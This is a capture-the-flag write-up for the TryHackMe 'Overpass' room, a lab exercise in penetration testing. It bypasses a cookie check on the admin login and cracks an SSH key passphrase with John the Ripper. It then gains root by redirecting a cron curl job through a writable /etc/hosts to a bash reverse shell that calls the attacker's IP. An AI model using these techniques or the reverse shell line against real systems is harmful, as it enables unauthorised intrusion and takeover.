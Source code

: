 ```yaml
---
Platform:
  - TryHackMe
Difficulty: Easy
Status: Rooted/Finished
Blog Posting: Not Posted
Type: Machine
---
```

In this writeup we are going to solve the Overpass room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

  

Lets Start……

  

First start the machine and perform a basic nmap scan.

Command: `nmap -A -T4 -v <Target_IP>`

![[Overpass/assets/Untitled.png|Untitled.png]]

From the results of the nmap scan, we can find 2 ports that are open, one is port 22 and the other one is port 80. On port 22 ssh service is running and on port 80, a golang http server is running. Lets visit the website that is running on port 80.

![[Overpass/assets/Untitled 1.png|Untitled 1.png]]

There is nothing interesting on the website. Lets enumerate the directories in the web server to find hidden directories using gobuster.

Command: `gobuster dir -u http://<Target_ID>/ -w` `**/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt**`

![[Overpass/assets/Untitled 2.png|Untitled 2.png]]

From the results of the gobuster, we can see that there is a directory `/admin`.

The `/admin` path consists of a login page for the Administrator area.

![[Overpass/assets/Untitled 3.png|Untitled 3.png]]

I tried some default credentials like `admin:admin` but it didn’t work. Then I tried some basice sql injection but it also didn’t work. Then I checked the page source and found the `login.js` script.

![[Overpass/assets/Untitled 4.png|Untitled 4.png]]

In the `login.js` script, in the login function, if the login is successful, it sets a cookie named “SessionToken”.

![[Overpass/assets/Untitled 5.png|Untitled 5.png]]

So, I tried to manually set a cookie with the name of “SessionToken” and with a empty value “”.

To set the cookie, open the dev tools and go to the application tab, and go to the cookies section and double click the Name area to add a cookie and enter the name as `SessionToken` , leave the value as empty and set the Path to “/”.

![[Overpass/assets/Untitled 6.png|Untitled 6.png]]

Now refresh the page. We have successfully logged in.

![[Overpass/assets/Untitled 7.png|Untitled 7.png]]

The web application only checks whether there is cookie to access the admin page and it doesn’t verify or check whether the cookie is valid or not.

We can see SSH Key for the user `james` in the admin page and its also mentioned that if we crack this SSH key we can find the password for the user james. Now copy and save this Key in a file in your local machine.

![[Overpass/assets/Untitled 8.png|Untitled 8.png]]

I have saved the private key in a file named key. I changed the permission of the key file to `666` using the command `chmod 600 key` and I tried to login via SSH using this key, it’s prompting for a passphrase.

![[Overpass/assets/Untitled 9.png|Untitled 9.png]]

So, I tried to crack the key using [JohnTheRipper](https://www.openwall.com/john/). To do that so, first we have to convert the private key into a hash format. To do that we can use `ssh2john`.

![[Overpass/assets/Untitled 10.png|Untitled 10.png]]

I have generated the hash and stored in a file named `johnSSH`. Now we can use this hash to crack the passphrase using [JohnTheRipper](https://www.openwall.com/john/).

Command: `john --wordlist=/usr/share/wordlists/rockyou.txt johnSSH`

![[Overpass/assets/Untitled 11.png|Untitled 11.png]]

And we got the passphrase. Now we can login via SSH as the user `james` by using the private key and passphrase.

![[Overpass/assets/Untitled 12.png|Untitled 12.png]]

Now we have logged in as the user `james`. And you can get the user flag from user.txt.

![[Overpass/assets/Untitled 13.png|Untitled 13.png]]

Now to find the root flag we have to escalate our priveleges. For that we are going to use the [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh) tool. Download the [`linpeas.sh`](http://linpeas.sh) script in your local machine. Now go to the directory where your downloaded [`linpeas.sh`](http://linpeas.sh) file is and open the directory location in a terminal.

Now we can use python to start a simple http server to host the [`linpeas.sh`](http://linpeas.sh) file and we can download this file from the ssh session of the user james as tryhackme rooms don’t have internet access. To start a simple http server use the following command:

`python3 -m http.server`

![[Overpass/assets/Untitled 14.png|Untitled 14.png]]

Now in the ssh session of james, use wget to download the linpeas file using the following command: `wget http://<your_tryhackme_tun_IP>:8000/`[`linpeas.sh`](http://linpeas.sh). After downloading the file, update the linpeas.sh files permission to be a executable by using the following command: `chmod +x linpeas.sh`

![[Overpass/assets/Untitled 15.png|Untitled 15.png]]

Now run the linpeas.sh file and wait for its response.

![[Overpass/assets/Untitled 16.png|Untitled 16.png]]

Under the `cron jobs` section of the response, we can see that there is a curl command which is executed with root permissions.

![[Overpass/assets/Untitled 17.png|Untitled 17.png]]

The curl command is executing a file named `buildscript.sh` which has a file path `/downloads/src/buildscript.sh` which is hosted in the `overpass.thm` address.

We can check the `/etc/hosts` file to find out which IP address/domain the `overpass.thm` address resolves to.

![[Overpass/assets/Untitled 18.png|Untitled 18.png]]

We can see that the `overpass.thm` resolves to localhost i.e, `127.0.0.1`.

And also under the `Interesting writable files` section of the `linpeas` response, we can see that we have write access to the `/etc/hosts` file

![[Overpass/assets/Untitled 19.png|Untitled 19.png]]

So, we can modify the `/etc/hosts` file i.e., we can change the resolving IP address of the `overpass.thm` from `127.0.0.1` to our self hosted server and we can make it to execute our custom made `buildscript.sh` file in our local machine which on executed will obtain a reverse shell.

To do that we have to create directory structure in our local machine, like the directory structure in the curl command i.e., `/downloads/src/buildscript.sh`.

![[Overpass/assets/Untitled 20.png|Untitled 20.png]]

Now in the `src` directory, create a [`buildscript.sh`](http://buildscript.sh) file which on executed will obtain a reverse shell. The `buildscript.sh` file contains the following python script:

```
/bin/bash -i >& /dev/tcp/<your_tryhackme_tun_IP>/9001 0>&1
```

![[Overpass/assets/Untitled 21.png|Untitled 21.png]]

Now go to the root directory for our web server, in my case it is the `~Desktop/Overpass` directory and execute the following command : `python3 -m http.server 80`

![[Overpass/assets/Untitled 22.png|Untitled 22.png]]

And also open another terminal and create a `netcat` listener on port `9001` using the following command : `nc -lvnp 9001`

![[Overpass/assets/Untitled 23.png|Untitled 23.png]]

Now in the `james` SSH session open the `/etc/hosts` with your favourite text editor and edit the IP address of the `overpass.thm` from `127.0.0.1` to `<your_tryhackme_tun_IP>`.

![[Overpass/assets/Untitled 24.png|Untitled 24.png]]

Now wait for some time (around 20 to 30 secs). You will get a reverse shell back, check the `netcat` listener that you have created…..

![[Overpass/assets/Untitled 25.png|Untitled 25.png]]

Successfully got the root flag…..

  

Thankyou…….